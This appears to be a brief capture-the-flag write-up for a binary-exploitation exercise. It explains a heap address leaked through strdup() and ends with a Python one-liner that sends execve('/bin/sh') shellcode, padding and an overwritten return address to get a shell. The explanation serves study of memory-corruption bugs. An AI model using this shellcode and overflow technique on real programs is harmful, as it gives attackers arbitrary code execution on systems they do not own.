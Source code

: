 ![all function](./resources/functions.png "functions")

```
as we can see the main is simple it calls a function p().
```
![main function](./resources/main_function.png "main function")

```
....
```
![p function](./resources/p_function.png "p function")
```
as the source.c shows the function p() is doing a check on the return address then it allocates to our input into the heap using a call to the strdup() function internally strdup calls malloc() and using ltrace we can notice that whenver we run the program it returns the same addresse where it allocated our input so we can start writing from that address then override the Instruction pointer with the address returned from malloc in order for the programe to jump to that adress and execute the code injected

python - c 'print "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80" + "A" * 59 + "\x08\xa0\x04\x08"'
```